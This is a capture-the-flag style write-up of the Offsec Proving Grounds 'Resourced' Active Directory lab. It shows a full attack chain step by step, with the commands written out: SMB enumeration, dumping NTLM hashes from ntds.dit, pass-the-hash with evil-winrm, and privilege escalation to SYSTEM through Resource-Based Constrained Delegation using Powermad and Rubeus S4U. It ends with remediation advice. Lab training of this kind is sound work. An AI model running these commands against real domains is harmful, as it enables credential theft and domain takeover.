# Offsec Proving Grounds - Resourced


## Overview 

- Difficulty: Intermediate
- Community Rating: Very Hard
- Platform: Active Directory
- Skills Demonstrated: SMB Enumeration, Active Directory, Credential Discovery, Pass-the-Hash, BloodHound, Impacket Tools, Resource-Based Constrained Delegation (RBCD), Windows Privilege Escalation

## Methodology

This lab assessment followed the methodology below:

- Enumeration
- Credential Discovery
- Exploitation
- Privilege Escalation
- Post-Exploitation

---
## Enumeration 

As with any engagement, I began with an `nmap` port scan to identify accessible ports and services
```
nmap 192.168.226.175 -sCV -A -p-
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-05 12:21 BST
Nmap scan report for 192.168.226.175
Host is up (0.017s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-05 11:22:30Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-07-05T11:24:08+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: resourced
|   NetBIOS_Domain_Name: resourced
|   NetBIOS_Computer_Name: RESOURCEDC
|   DNS_Domain_Name: resourced.local
|   DNS_Computer_Name: ResourceDC.resourced.local
|   DNS_Tree_Name: resourced.local
|   Product_Version: 10.0.17763
|_  System_Time: 2025-07-05T11:23:28+00:00
| ssl-cert: Subject: commonName=ResourceDC.resourced.local
| Not valid before: 2025-07-04T11:18:44
|_Not valid after:  2026-01-03T11:18:44
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
...
```

Key Findings:
- Accessible ports DNS (53), Kerberos (88), and LDAP (389) indicate the target is an Active Directory Domain Controller
- Port 445 (SMB), allowing further enumeration of shares and domain information.
- port 3389 (RDP) was available for remote access.
- port 5985 (WinRM)

After a successful port scan identifying the open ports, further enumeration was performed using `Enum4linux` to query the SMB service for potential shares and users.
```
enum4linux 192.168.226.175
```
This revealed several domain users along with their respective roles. For the user `V.Ventz`, the description field appeared to contain a plaintext password.
```
index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain                                                                                                
index: 0xf72 RID: 0x457 acb: 0x00020010 Account: D.Durant       Name: (null)    Desc: Linear Algebra and crypto god
index: 0xf73 RID: 0x458 acb: 0x00020010 Account: G.Goldberg     Name: (null)    Desc: Blockchain expert
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xf6d RID: 0x452 acb: 0x00020010 Account: J.Johnson      Name: (null)    Desc: Networking specialist
index: 0xf6b RID: 0x450 acb: 0x00020010 Account: K.Keen Name: (null)    Desc: Frontend Developer
index: 0xf10 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0xf6c RID: 0x451 acb: 0x00000210 Account: L.Livingstone  Name: (null)    Desc: SysAdmin
index: 0xf6a RID: 0x44f acb: 0x00020010 Account: M.Mason        Name: (null)    Desc: Ex IT admin
index: 0xf70 RID: 0x455 acb: 0x00020010 Account: P.Parker       Name: (null)    Desc: Backend Developer
index: 0xf71 RID: 0x456 acb: 0x00020010 Account: R.Robinson     Name: (null)    Desc: Database Admin
index: 0xf6f RID: 0x454 acb: 0x00020010 Account: S.Swanson      Name: (null)    Desc: Military Vet now cybersecurity specialist
index: 0xf6e RID: 0x453 acb: 0x00000210 Account: V.Ventz        Name: (null)    Desc: New-hired, reminder: HotelCalifornia194!
```

Using these credentials, I was able to successfully authenticate to the SMB service using `smbclient` to discover any sensitive information.



After verifying the credentials found were valid and authentication was obtained, we find a non default share `Password Audit`. Further investigation into the share reveals two directories: `Active Directory` and `registry`, which contained the `SECURITY`, `SYSTEM`, and `ntds.dit` files. 





## Credential Discovery

By utilizing the Impacket tool `secretsdump`, we can extract the domain password hashes for the target host as we now have a copy of the Active Directory database (`ntds.dit`).
```
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```
```
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL 
[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 9298735ba0d788c4fc05528650553f94
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
RESOURCEDC$:1000:aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3004b16f88664fbebfcb9ed272b0565b:::
M.Mason:1103:aad3b435b51404eeaad3b435b51404ee:3105e0f6af52aba8e11d19f27e487e45:::
K.Keen:1104:aad3b435b51404eeaad3b435b51404ee:204410cc5a7147cd52a04ddae6754b0c:::
L.Livingstone:1105:aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808:::
...
```

The dump succesfully recovered NTLM hashes for multiple domain users, which can be utilised for techniques such as hash cracking and pass-the-hash.

## Initial Access

Next I determine whether the hashes can be used for authentication directly or would require to be cracked. The hashes were saved locally and the tested against the previously found users using **Netexec** to identify accounts with remote access privilege.
```
netexec winrm 192.168.226.175 -u users.txt -H hashes.txt
```



The scan confirmed that the account L.Livingstone could successfully authenticate to the WinRM service using pass-the-hash authentication.

An interactive PowerShell session was then established using `evil-winrm`.
```
evil-winrm -i 192.168.226.175 -u L.Livingstone -H 19a3a7550ce8c505c2d46b5e39d6f808
```



## Privilege Escalation

Once initial acess had been achieved, domain data was collected using SharpHound and ingested into BloodHound. Analysis of the BloodHound graph revealed that the compromised user, `L.Livingstone`, had GenericAll permissions over the `ResourceDC$` computer object.
```
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\L.Livingstone\Documents -OutputPrefix "collector"
```



This type of permission allows Resource-Based Constrained Delegation (RBCD) to be configured, a path to privilege escalation. 

### Resource-Based Constrained Delegation

**Resource-Based Constrained Delegation (RBCD)** specifies which service accounts or systems are permitted to act on behalf of other users. This is controlled by the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute. Since the compromised user `L.Livingstone` had `GenericAll` permissions, it is possible to modify this attribute, ultimately impersonating a privileged user such as `Administrator`.

The attack was performed using the following steps:

1. Create a controlled machine account within the domain.
2. Configure the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the `ResourceDC$` computer object.
3. Use `Rubeus` to perform a S4U attack, requesting a Kerberos ticket on behalf of the `Administrator` account.
4. Convert the ticket from `.kirbi` format to `.ccache` format for use with Impacket tools.
5. Authenticate to the target using the delegated Administrator ticket.


#### 1. Creating a controlled computer object

The tool `Powermad` was used to create a new controlled machine withtin the domain
```
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount testmachine -Password $(ConvertTo-SecureString 'password' -AsPlainText -Force) -Verbose
```



Confirm with PowerShell
```
Get-ADComputer -Identity testmachine
```



#### 2. Configure the attribute on the `ResourceDC$` computer object

Before configuring RBCD, the `ResourceDC$` computer object did not have any accounts configured for delegation, as shown below:
```
Get-ADComputer RESOURCED$ -Properties PrincipalsAllowedToDelegateToAccount
```



The `Set-ADComputer` cmdlet was then used to modify the computer object's delegation settings, allowing the attacker-controlled machine account (`testmachine$`) to act on behalf of other users against the target system.
```
Set-ADComputer RESOURCEDC$ -PrincipalsAllowedToDelegateToAccount testmachine$
```

 The delegation configuration can be now verified by querying the computer object again. The output confirmed that `testmachine$` had been successfully added as a trusted account for delegation:



#### 3. S4U Attack

Service for User (S4U) allows a service account to request tickets on behalf of another user without requiring the user's password.

With RBCD configured, the attacker-controlled computer account (`testmachine$`) could now be used to request Kerberos tickets on behalf of other users.

First, the Kerberos keys for the newly created machine account were generated using Rubeus. These keys were required for authentication during the S4U request.
```
.\Rubeus.exe hash /password:password /user:testmachine$ /domain:resourced.local
```



Rubeus was then used to perform the S4U attack, by requesting a ticket for the `cifs` service on `ResourceDC$` while impersonating the `Administrator` account.
```
.\Rubeus.exe s4u /user:testmachine$ /aes256:51AC7DF70EE3045A905EDA9BA1831DF32A93EEBA29653FBB74DD0A96CF6362C9 /aes128:5590150679006CB71B6EDABF30C14F1D /rc4:8846F7EAEE8FB117AD06BDD830B7586C /impersonateuser:Administrator /msdsspn:cifs/ResourceDC.resourced.local /domain:resourced.local /ptt /nowrap
```


#### 4. Convert the Kerberos ticket

The Kerberos service ticket generated by Rubeus was exported in Base64-encoded `.kirbi` format. The ticket was first decoded back into its original `.kirbi` binary format and then converted into `.ccache` format using Impacket's `ticketConverter`.
```
base64 -d ticket.kirbi.encoded > ticket.kirbi
```
```
impacket-ticketConverter ticket.kirbi ticket.ccache
```

#### 5. Authenticate

With the Kerberos credential cache configured, it can now be used for authentication. In this case resulting in a SYSTEM shell on the domain controller 
```
export KRB5CCNAME=ticket.ccache 
```
```
impacket-psexec resourced.local/Administrator@ResourceDC.resourced.local -no-pass -k
```



## Conclusion

This assessment demonstrated a complete Active Directory attack chain, beginning with SMB enumeration and credential discovery, followed by hash extraction, authenticated access, and privilege escalation through Resource-Based Constrained Delegation (RBCD).

By leveraging exposed SMB shares and misconfigured delegation permissions, it was possible to escalate privileges from a standard domain user to SYSTEM-level access on the domain controller.

The assessment highlighted the impact of excessive Active Directory permissions and the risks associated with delegation configurations that are not properly restricted.

## Lessons Learned

Resource-Based Constrained Delegation (RBCD) was a new technique for me during this assessment. This machine provided a good opportunity to understand how Kerberos delegation works, specifically how the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute can be abused when an attacker gains sufficient control over a computer object.

A key takeaway was understanding how individual Active Directory permissions, such as `GenericAll`, can lead to significant privilege escalation opportunities when combined with Kerberos delegation features.

I have documented the complete RBCD attack workflow, including performing the attack entirely from a Linux-based attacker machine, in my Active Directory cheatsheet:

- [Resource-Based Constrained Delegation (RBCD) Cheatsheet](../../../Cheatsheets/Active%20Directory/Privilege%20Escalation/RBCD.md)

## Remediation


To mitigate the vulnerabilities identified during this assessment, the following recommendations should be implemented:

- Review and restrict excessive Active Directory permissions, particularly dangerous rights such as `GenericAll` on computer objects.
- Regularly audit configurations and review the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute for unexpected entries.
- Limit which users and computers are permitted to create new computer accounts within the domain.
- Apply least privilege principles
- Avoid storing sensitive files such as `ntds.dit` and registry hives in accessible network shares.
